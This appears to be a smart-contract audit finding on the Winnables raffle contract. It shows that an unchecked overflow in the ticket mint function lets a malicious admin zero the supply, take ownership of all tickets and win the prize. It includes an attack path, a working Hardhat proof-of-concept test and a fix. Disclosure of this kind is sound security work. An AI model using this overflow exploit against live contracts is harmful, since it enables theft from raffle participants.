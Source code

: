 Zesty Carrot Mockingbird

High

# WinnableTicket.sol mint can be overflowed allowing malicious admin to steal tickets

### Summary

This breaks the invariants specified by the sponser: 

- Admins cannot affect the odds of a raffle
- Winnables admins cannot do anything to prevent a winner from withdrawing their prize (malicious admin is stealing prize from rightful winner)

Steps:

1. A raffle is created and users enter normally. 
2. just before the raffle closes, malicious admin performs several transactions. 
3. first they mint x tickets to themselves such that _supplies[id] = 0 through an overflow and _balances[id][adminAddress] = x. This sets _ticketOwnership[id][0] to the admin address, which previously was the first user to mint tickets. 
4. next they mint y tickets such that the next ticket minted will override the _ticketOwnership[id][startId] = secondUserAddress to their own address. the admin can repeat this in such a way that given enough gas, the admin address is returned for all possible ticket ids when ownerOf is called. A more efficient attack will only continue until supplyOf(ticketId) is equal to the minimum tickets sold for a drawing to happen.
5. When the winning ticket is drawn it gets the totalSupply(id) of the raffle, which will return with total amount the malicious admin minted after overflowing _supplies[id] to 0. 
6. the owner of all id's considered for the raffle winner will be the malicious admin, guaranteeing them the prize. 

### Root Cause

WinnablesTicket.sol allows the admin to mint tickets. The sponsors have said that admins granting free tickets is expected and granting themselves free tickets only reduces their earnings potential because of the existence of max ticket supply. However the mint function in WinnablesTicket.sol has this unchecked addition to supplies: 
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicket.sol#L182-L199

with no validation of the amount. an admin can effectively set supplies to whatever amount they choose with an overflow. 


### Attack Path

Admin of WinnableTicket.sol grants themselves minter role, and directly calls mint() function. 

### Impact

Raffles can be rigged to guarentee malicious admin wins the raffle. 

### PoC

I have provided a test showing how an admin can steal user funds here. This is meant to be added to the 'Ownership and admin functions' portion of ticket.js. 

```javascript
it('mints ticket, overflows supplies, passess', async () => {
      await (await ticket.setRole(signers[0].address, 1, true)).wait();
    // mint tickets to user, simulate raffle
    // startid - 0
    await (await ticket.mint(signers[1].address, 1, BigNumber.from(10))).wait();
    // balance user - 10
    // userStartId - 0
    // ticketOwnership[1][0] = user
    // balance admin - 0
    // supply - 10
    expect(await ticket.balanceOf(signers[1].address, 1)).to.eq(BigNumber.from(10));
    expect(await ticket.ownerOf(1, 9)).to.eq(signers[1].address)
    console.log('supplyOf before overflow', await ticket.supplyOf(1));

    // mint up to 2^256 - 10 tickets to self, overflowing the supply to 0
    await (await ticket.mint(signers[0].address, 1, BigNumber.from(2).pow(256).sub(10))).wait();
    expect(await ticket.supplyOf(1)).to.eq(BigNumber.from(0));
    // admin has stolen users tickets, but needs to remint them
    // expect(await ticket.ownerOf(1, 9)).to.eq(signers[0].address);  
    console.log('supplyOf after overflow', await ticket.supplyOf(1));
    // balance user - 10
    // adminstartId - 0
    // ticketOwnership[1][0] = admin
    // balance admin - 2^256 - 10
    // supply - 0
    // mint 20 more tickets to self, stealing first users tickets
    await (await ticket.mint(signers[0].address, 1, BigNumber.from(20))).wait();
    // balance user - 10
    // adminStartId - 0
   // balance admin - 10


    console.log('supplyOf after minting 10 more', await ticket.supplyOf(1));
    console.log('balanceOf self', await ticket.balanceOf(signers[0].address, 1));
    expect(await ticket.balanceOf(signers[0].address, 1)).to.eq(10);
    expect(await ticket.supplyOf(1)).to.eq(20);
    // at this point, token.supplyOf is 20 and balance of admin is 10. 
    // but, ownerOf will show that admin owns all tickets, as it is the last one to mint. 
    // since uint256 winningTicketNumber = request.randomWord % supply; 
    // the winning ticket number will be randomword % 20, or between 0 or 19. 
    // the winning address is determined by 'return IWinnablesTicket(TICKETS_CONTRACT).ownerOf(request.raffleId, 
    // winningTicketNumber);'
    // all possible ticket ids will show the malicious admin as the owner. 
    expect(await ticket.ownerOf(1, 19)).to.eq(signers[0].address);
    });
```



### Mitigation

remove the unchecked code block in WinnablesTicket.mint(). 

```solidity
  function mint(address to, uint256 id, uint256 amount) external onlyRole(1) {
    if (to == address(0)) {
      revert TransferToAddressZero();
    }
    address operator = msg.sender;
    uint256 startId = _supplies[id];


      _balances[id][to] += amount;
      _supplies[id] = startId + amount;
    

    _ticketOwnership[id][startId] = to;
    emit NewTicket(id, startId, amount);
    emit TransferSingle(operator, address(0), to, id, amount);

    _doSafeTransferAcceptanceCheck(operator, address(0), to, id, amount);
  }
```
